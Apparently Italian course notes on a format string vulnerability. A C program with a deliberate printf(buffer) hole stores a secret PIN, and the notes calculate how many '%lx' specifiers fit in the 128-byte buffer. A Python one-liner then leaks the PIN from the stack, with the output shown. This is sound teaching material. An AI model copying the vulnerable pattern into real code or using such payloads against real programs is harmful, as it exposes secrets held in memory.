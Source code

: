 ![https://i.ibb.co/ZzDjLq9/image.png](https://i.ibb.co/ZzDjLq9/image.png)

## Esercizio

Possiamo ottenere il valore del PIN dumpandolo dallo stack nel seguente codice?

```c
#include <stdio.h>
int main() {
	 char buffer[128];
	 char PIN[128] = "1337"; // secret PIN
	 
	 printf("What is your name? ");
	 fflush(stdout);
	 
	 // reads at most 128 bytes from standard input, including NULL!
	 fgets(buffer,sizeof(buffer),stdin);
	 
	 printf("Hello ");
	 // format string vulnerability: the attacker controls buffer
	 printf(buffer);
}
```

Supponiamo che il PIN venga allocato immediatamente dopo il buffer.

se riuscissimo a inserire abbastanza “`%016lx`” nel buffer in modo da leggere il contenuto dei registri e successivamente dello stack fino al raggiungimento del PIN ce l’avremmo fatta:

- il buffer è grande 128 byte, in tale buffer devo metterci le “`%016lx`”
- Il contenuto del buffer è nel sesto parametro, cioè quando si inizia a leggere lo stack
- Il primo registro conterrà l’input con le direttive, quindi per raggiungere il PIN abbiamo bisogno di consumare i successivi 5 registri per poi leggere 8 byte 16 volte (per consumare il buffer) e infine leggere altri 8 byte per il PIN:
    
    5 + 16 + 1 = 22. Abbiamo quindi bisogno di 22 “`%016lx`” per raggiungere la prima word del PIN
    
- dato che la stringa “`%016lx`” è lunga 6 byte, la stringa totale sarà lunga 22*6 = 132 byte che è maggiore dei 128 byte che il nostro buffer ci permette di inserire

Quindi non riusciamo a raggiungere la stringa.

### Soluzione 1

Al posto di usare “`%016lx`” usiamo “`%lx`”, dato che la nuova stringa è lunga 3 byte la stringa totale sarà lunga 22*3 = 66 byte che ci sta dentro il buffer.

Eseguendo l’attacco otteniamo:

```c
python3 -c 'print(".%lx"*22)' | ./vulnerable
What is your name? Hello .6c6c6548.0.206f6c6c.0.7fffe46682b0.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.786c252e786c252e.a.0.0.0.0.37333331
```
